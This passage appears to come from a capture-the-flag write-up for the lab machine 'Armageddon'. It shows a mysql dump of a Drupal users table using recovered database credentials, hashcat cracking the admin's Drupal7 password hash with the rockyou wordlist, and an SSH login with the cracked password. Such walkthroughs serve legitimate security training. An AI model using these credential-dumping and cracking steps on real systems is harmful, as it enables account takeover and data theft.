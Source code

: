 ```
mysql -u"drupaluser" -p"CQHEy@9M*m23gBVj" -e "use drupal;select * from users;"
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admi
n@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

Hashcat cracks the hash quite quickly.

```
$ hashcat -m 7900 -O hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...[snip]...
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Drupal7
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Time.Started.....: Wed Jul 21 17:57:06 2021 (1 sec)
Time.Estimated...: Wed Jul 21 17:57:07 2021 (0 secs)
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      450 H/s (8.75ms) @ Accel:64 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 256/14344384 (0.00%)
Rejected.........: 0/256 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:32256-32768
Candidates.#1....: 123456 -> freedom

Started: Wed Jul 21 17:56:59 2021
Stopped: Wed Jul 21 17:57:08 2021
```

After logging in as brucetherealadmin via SSH we can now grab the user flag.

```
$ ssh brucetherealadmin@10.129.48.89
The authenticity of host '10.129.48.89 (10.129.48.89)' can't be established.
ECDSA key fingerprint is SHA256:bC1R/FE5sI72ndY92lFyZQt4g1VJoSNKOeAkuuRr4Ao.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.48.89' (ECDSA) to the list of known hosts.
brucetherealadmin@10.129.48.89's password: 
Last login: Tue Mar 23 12:40:36 2021 from 10.10.14.2
[brucetherealadmin@armageddon ~]$ wc -c user.txt 
33 user.txt
```

